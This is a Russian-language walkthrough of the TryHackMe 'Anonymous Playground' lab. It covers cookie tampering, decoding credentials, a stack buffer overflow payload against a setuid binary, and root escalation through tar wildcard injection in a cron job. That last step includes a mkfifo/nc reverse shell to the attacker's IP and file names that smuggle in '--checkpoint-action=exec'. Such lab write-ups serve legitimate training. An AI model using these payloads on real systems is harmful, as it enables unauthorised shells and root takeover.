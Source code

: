 # Anonymous Playground

:white_check_mark:  [**Python "zA" decode**](#Python_zA_decode)

:white_check_mark:  [**Stack Buffer Overflow**](#Stack_Buffer_Overflow)

:white_check_mark:  [**Tar wildcards(privesc)**](#Tar_wildcards(privesc))

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV anon.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Proving Grounds
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **anon.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/1.png)

Nmap показывает нам директорию, которая содержится в robots.txt, перейдем по ней.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/2.png)

Приложение говорит, что у нас нет доступа. Посмотрим cookie сайта.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/3.png)

Возможно изменив значение cookie на "granted" мы получим доступ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/4.png)

Мы получаем доступ и перед нами появляется какой-то код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/5.png)

<a name="Python_zA_decode"></a>

В подсказке к машине говорится следующее: "You're going to want to write a Python script for this. 'zA' = 'a' ".  Данный текст был зашифрован следующим образом: берется порядковый номер каждой из двух подряд идущих букв. Их порядковые номера складываются. Затем забираем остатот от деления данного числа на 26(кол-во букв в алфавите). Тоесть:
```
'z' = 26
'A' = 1

'zA' = 26 + 1 = 27

27 % 26 = 1 = 'a'
```

Напишем скрипт, который будет расшифровывать данный текст.
```
def decoding(str_to_dec):
    letters_a_to_z = ""

    for i in range(ord('a'), ord('z') + 1):
        letters_a_to_z += chr(i)

    for i in range(0, len(str_to_dec), 2):
        first_letter = str_to_dec[i]
        second_letter = str_to_dec[i + 1].lower()

        first_letter_to_num = ord(first_letter) - ord('a') + 1
        second_letter_to_num = ord(second_letter) - ord('a') + 1

        letter_decoded = (first_letter_to_num + second_letter_to_num) % 26

        cipher_dec = letters_a_to_z[letter_decoded - 1]

        print(cipher_dec, end="")

decoding("hEzAdCfHzA")
print("")
decoding("hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN")
```

Получаем имя пользователя и пароль. Подключаемся по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/6.png)

Читаем записку. В ней пользователь spooky говорит, что написал программу и просит нас ее сломать.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/7.png)

<a name="Stack_Buffer_Overflow"></a>

Перебросив себе на машину эту программу("hacktheworld"), отправим ее в Ghidra. В коде программы можем заметить следующие интересные функции.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/8.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/9.png)

Если мы сможем перейти к setuid, то получим новые права доступа. Попробуем переполнить буффер этой программы. Будем использовать cyclic для создания полезной нагрузки. Перепробовав различные значения, программа начинает выдавать ошибку после 73 символов.

Cyclic 71 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/10.png)

Cyclic 72 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/11.png)

Cyclic 73 > alphabet:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/12.png)

Найдем адрес функции.
```
info functions
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/13.png)

Наш payload будет выглядеть следующим образом: 72 символа + адрес функции с прямым порядком байтов.

Перейдем к машине и с помощью python будет передавать в программу наш payload.

```
python -c 'print "A"*72+"\x57\x06\x40\x00\x00\x00\x00\x00"'  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/14.png)

Мы получаем то, что нужно, но оболочка прерывается. Это происходит потому, что оболочка выполняется, но не имеет никаких входных данных. Поэтому оболочка в конечном итоге просто завершает работу. Чтобы обойти это, будем использовать команду cat вместе с нашим payload-ом. Получаем оболочку.
```
(python -c 'print "A"*72+"\x58\x06\x40\x00\x00\x00\x00\x00"'; cat)  | ./hacktheworld
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/15.png)

<a name="Tar_wildcards(privesc)"></a>

Просмотрев crontab, можно обнаружить следующий фрагмент:
```
*/1 *   * * *	root	cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

Дело в том, что tar страает от загрязнения аргументов. Для экплуатации уязвимости можно использовать Wildcards. Отправим следующие команды для эксплуатации уязвимости:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Запускаем слушать на нашей машине и через некоторое время получаем оболочку с root.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Anonymous_Playground/16.png)
